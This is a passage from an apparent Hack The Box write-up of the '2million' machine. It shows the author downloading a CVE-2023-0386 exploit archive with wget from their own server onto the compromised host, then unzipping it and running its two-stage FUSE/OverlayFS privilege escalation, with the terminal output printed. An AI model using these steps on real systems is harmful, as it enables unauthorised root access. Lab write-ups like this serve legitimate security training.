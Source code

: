 ```bash
```

Well, now that we have zipped our files and set up our HTTP server, let's transfer our zip file to the target machine using the `wget` command:

```bash
(remote) www-data@2million:/tmp$ wget http://<HTB_IP>/exploit.zip
--2025-08-10 21:49:20-- http://<HTB_IP>/exploit.zip
Connecting to <HTB_IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 532520 (520K) [application/zip]
Saving to: 'exploit.zip'
exploit.zip 100%[================================================>] 520.04K 2.46MB/s in 0.2s
2025-08-10 21:49:20 (2.46 MB/s) - 'exploit.zip' saved [532520/532520]
```

On the target machine, we can then unzip our zip file:

```bash
(remote) www-data@2million:/tmp$ unzip exploit.zip
Archive: exploit.zip
creating: CVE-2023-0386-main/
inflating: CVE-2023-0386-main/exp
inflating: CVE-2023-0386-main/gc
inflating: CVE-2023-0386-main/getshell.c
inflating: CVE-2023-0386-main/fuse.c
creating: CVE-2023-0386-main/test/
inflating: CVE-2023-0386-main/test/mnt
inflating: CVE-2023-0386-main/test/mnt.c
inflating: CVE-2023-0386-main/test/fuse_test.c
inflating: CVE-2023-0386-main/Makefile
inflating: CVE-2023-0386-main/exp.c
inflating: CVE-2023-0386-main/fuse
inflating: CVE-2023-0386-main/README.md
creating: CVE-2023-0386-main/ovlcap/
extracting: CVE-2023-0386-main/ovlcap/.gitkeep
```

Then go to the directory containing the exploit.

First, we can execute the first part of the exploit in the background using `&`, i.e., `./fuse ./ovlcap/lower ./gc &`. Then, in a second step, execute the second part `./exp`:

```bash
(remote) www-data@2million:/tmp$ cd CVE-2023-0386-main/
(remote) www-data@2million:/tmp/CVE-2023-0386-main$ ls
Makefile README.md exp exp.c fuse fuse.c gc getshell.c ovlcap test
(remote) www-data@2million:/tmp/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc &
[1] 4941
(remote) www-data@2million:/tmp/CVE-2023-0386-main$ [+] len of gc: 0x3ef0
./exp
uid:33 gid:33
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxr-xr-x 1 root root 4096 Aug 10 21:51 .
drwxrwxr-x 6 root root 4096 Aug 10 21:51 ..
-rwsrwxrwx 1 nobody nogroup 16112 Jan 1 1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
```